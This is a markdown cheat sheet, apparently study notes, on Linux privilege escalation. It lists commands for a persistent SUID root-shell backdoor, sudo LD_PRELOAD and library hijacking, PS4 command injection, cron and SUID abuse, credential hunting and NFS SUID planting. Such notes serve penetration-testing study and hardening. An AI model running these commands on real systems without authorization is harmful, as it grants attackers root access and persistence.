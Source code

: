 Persistent root: `cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash` -> /tmp/rootbash -p`

1. Kernel exploit:
    + Detection:
        + `uname -a`, search for exploits
        + `linux-exploit-suggester-2.pl -k KERNEL`
    + Exploitation:
        + search for exploits, compile, run

2. Service exploit:
    + Detection:
        + `ps aux | grep "^root"`
        + `<program> --version`
        + `dpkg -l | grep <program>` or `rpm -qa | grep <program>`
    + Exploitation:
        + search for exploits
        + GTFOBins

3. Weak file permissions:
    + Detection:
        + `lse.sh`
        + `/etc/shadow` R|W, `/etc/passwd` W
        + backups
    + Exploitation:
        + depending on which files are readable or writable

4. Sudo:
    + Detection:
        + `lse.sh`
        + `sudo -l`
    + Exploitation:
        + can execute ALL and known password: `sudo su`, `sudo -i`, `sudo -s`, `sudo /bin/sh`, `sudo passwd`
        + GFTOBins
        + `LD_PRELOAD` -> create `preload.so`, then `sudo LD_PRELOAD=/tmp/preload.so PROGRAM`
        + `LD_LIBRARY_PATH` -> create shared library (`ldd`), then `sudo LD_LIBRARY_PATH=LIB_PATH PROGRAM`

5. Cron jobs:
    + Detection:
        + `lse.sh`
        + `/etc/crontab`
    + Exploitation:
        + weak file permissions
        + PATH
        + wildcards in cronjob -> GTFOBins

6. SUID binaries:
    + Detection:
        + `lse.sh`
    + Exploitation:
        + search for exploits
        + GTFOBins
        + shared object injection -> create shared library (`strace -v -f -e execve <command> 2>&1 | grep exec`), then run SUID binary
        + PATH (`strace -v -f -e execve <command> 2>&1 | grep exec`, `ltrace`, `strings`, disassembly)

7. Shell features:
    + `bash` < 4.2-048 -> user defined functions with absolute path name take precedence over executable
    + `bash` < 4.4 -> bash debug mode `env -i SHELLOPTS=xtrace PS4='$(CMD)' PROGRAM`

8. Passwords and keys:
    + config files
    + history files
    + SSH keys
    + password reuse

9. NFS:
    + Detection:
        + `/etc/exports`
        + `showmount -e TARGET`
    + Exploitation:
        + `mount -o rw,vers=2 TARGET:/tmp /tmp/nfs`
        + create SUID binary, run from target
